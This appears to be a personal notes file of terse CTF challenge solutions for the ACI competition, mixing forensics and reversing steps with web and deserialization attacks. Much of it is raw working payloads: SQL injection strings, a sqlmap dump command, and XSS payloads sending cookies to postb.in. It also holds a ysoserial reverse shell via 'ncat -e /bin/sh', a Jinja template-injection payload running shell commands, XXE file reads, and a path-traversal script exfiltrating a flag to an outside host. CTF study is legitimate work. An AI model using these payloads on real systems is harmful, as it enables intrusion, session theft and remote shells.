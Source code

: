 # Unsorted

This is a random collection of other problems I have notes on but need to make into better writeups.

I plan to keep working on these scripts to make them actually good.

## DENIED

* robots.txt
* `curl http://challenge.acictf.com:22623/secret_maintenance_foo_543212345 -d "cmd=cat flag.txt"`

## No escape

* `houdini' or pwHash = '' --` 

## Thats more than enough

* `convert -size 100x100 xc:black canvas.jpg` to create a simple image
* other image is embedded right after first

## Bootcamp

* https://en.wikibooks.org/wiki/QEMU/Debugging_with_QEMU
* 1st terminal: qemu-system-x86_64 -s -S -k en-us -m 512 -drive format=raw,file=floppy.img
* 2nd terminal: gdb;target remote localhost:1234; c

## Turtles all the way down

* password is in irc, use wireshark to extract the next zip, use 7zip to extract next pcap

## Controlled Access

* https://reverseengineering.stackexchange.com/questions/20632/help-unpacking-u-boot-firmware
* binwalk firmware.bin
* dd if=firmware.bin of=data.xz bs=1 count=1467840 skip=64
* dd if=firmware.bin of=squashfs.bin bs=1 skip=1467904
* unsquashfs squashfs.bin
* look in /root/payload.sh (INTERNAL_HOST)

## Boot Master

* fix byre set to 0x51 as 0x55
* do same things from bootcamp

## Boot Riddle

* same startup as before
* inside qemu do "ctrl+alt+2"
* `xp/2c 0x7dc0`

## hacker, scan thyself

* Loved this challenge
* gdb: set follow-fork-mode parent
* -22 (overwrite puts in GOT)
* 4195926 (decimal address for system)
* command goes in notes (cat flag)

## whats the difference

* hxd->analysis->compare
* F6
* but actually it's just at the end, look at size difference
* it's code that messes with the input parameters
* you can run it in olly or use the xor key with the other 2 addresses provided

## boot racer

* `watch -l *(char *)0x7dc0`
* same as before, once it breaks keep doing n and x/s 0x7dc0 to print flag

## library_card

```c
int main(){
	gatekeeper84(0,0,0);
	return 0;
}
```

* `cp liblibrary_card.so /usr/lib`
* `chmod 755 /usr/lib/liblibrary_card.so`
* `ldconfig`
* `gcc test.c -o test -llibrary_card`
* `./test`
* https://www.cprogramming.com/tutorial/shared-libraries-linux-gcc.html

## cookie monster

* `name=flag&ingredients=<script>document.write('<img src%3D"https://postb.in/1587858395408-8044362019281?'%2Bdocument.cookie%2B' "/>')</script>`
* replace session cookie and go to /admin

## the sql always sucks

* `sqlmap -u http://challenge.acictf.com:27748/?firstname=test --random-agent --level=5 --risk=3 -D firstname -T SuperSecretData -C flag --dump`


## I have caught you now

```
* challenge.acictf.com:32317/search?se</code>a<svg/onload%3dalert(cookie)>a<code>rch=<script>
* https://www.ipaddressguide.com/ip
* http://challenge.acictf.com:32317/search?se%3C/code%3Ea%3Csvg/src%3Dhttp://167837204:2018/cookie/%3Ea%3Ccode%3Erch=%3Cscript%3E
* http://challenge.acictf.com:32317/search?se%3C/code%3Ea%3Csvg/src%3Dhttp://2886795265:2018/cookie/%3Ea%3Ccode%3Erch=%3Cscript%3E
* http://challenge.acictf.com:32317/search?se%3C/code%3Ea%3Csvg/onload%3Dalert(location%3D%26quot;https://postb%26period;in/1587951532697-0760058402083%3F%26quot;%26plus;cookie)%3Ea%3Ccode%3Erch=%3Cscript%3E
```

## c&c music factory

* get rid of ptrace
* creates so file, debug into that
* factory function calls a bunch of sub functions, make sure return value is right for each
* step through function it calls when res=0, should assemble flag

## needle in a haystack

* procdump - get exe, find function that does simple xor with flag
* memdump - ctrl+f for "ACI{" ^ key[:4] to find full string
* https://www.andreafortuna.org/2017/07/10/volatility-my-own-cheatsheet-part-3-process-memory/

## serial killer

* `apt-get install openjdk-8-jdk`
* download ysoserial
* `java -jar ysoserial-master-30099844c6-1.jar CommonsCollections4 'ncat -e /bin/sh 172.17.0.1 2018' > payload`
* on shell server: `nc -lvp 2018`
* `cat payload | nc challenge.acictf.com 30340`

## blame it on the temp

* robots.txt has the directory structure
* upload a file ../../templates/whatever/index.html (for any changes make a new folder!!)
* `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('cat *').read()}}{%endif%}{%endfor%}`

## extremely malicious language

* `admin' or '1'='1:' or '1'='1`

* payloadallthethings:

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=make.php"> ]>
<cybermap>
	<name>&xxe;</name>
	<country>CN</country>
	<country>US</country>
</cybermap>
```

* then:

```xml
<cybermap>
	<name>CYBER MAP</name>
	<country>CN</country>
	<country>US\")';./flag;#</country>
</cybermap>
```

* view source

## firstfail
* http://10.0.254.20:2018/madstacks.html
```html
<html>
  <body>
    <h1>Test page for Secure Password Manager</h1>
    <p>This page lets you test the password manager. Once you have it working, you can use it to log in below and continue on.</p>
  <div id="notice"></div>

  <form>
    <input type="text" name="username" placeholder="Username"><br/>
    <input type="password" name="password" placeholder="Password"><br/>
    <button>Login</button>
  </form>
  </body>

<script>
window.setTimeout(function(){
	window.postMessage({ 
		  type:'add_entry',
		  host: 'hacked',
		  entry: 'username="testuser",password="test",port.onMessage.addListener(msg => {document.write(msg.entries[0])});port.postMessage({type:"entries", pattern:"../../../../../../../../../opt/problems/firstfail_3_1f64919a0f4d781604743fa26334cbe8/flag.txt"});window.setTimeout(function(){$.get( "http://10.0.254.20:2018/?"+document.body.innerText, function( data ) {$( ".result" ).html( data );});}, 500);'
		}, "*");
	PasswordManager.openManager();
}, 500);
</script>
</html>
```
